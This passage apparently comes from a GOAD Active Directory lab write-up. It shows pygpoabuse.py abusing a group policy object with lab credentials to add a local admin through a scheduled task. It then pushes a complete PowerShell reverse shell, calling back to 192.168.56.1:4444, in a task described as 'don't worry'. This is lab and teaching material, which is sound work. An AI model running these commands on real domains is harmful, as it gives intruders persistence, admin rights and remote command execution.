 ```bash
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"
```

![acl_gpo_abuse_schedule_task.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task.png)

- If we take a look in the windows GUI we will see the schedule task created :

![acl_gpo_abuse_schedule_task_result.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task_result.png)

- If we wait few minutes or if we run a `gpudate /force` we will see the new local admin user

![acl_gpo_abuse_schedule_task_adduser.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task_adduser.png)


- Now let's try to get a powershell reverseshell

```bash
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 | Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"
```
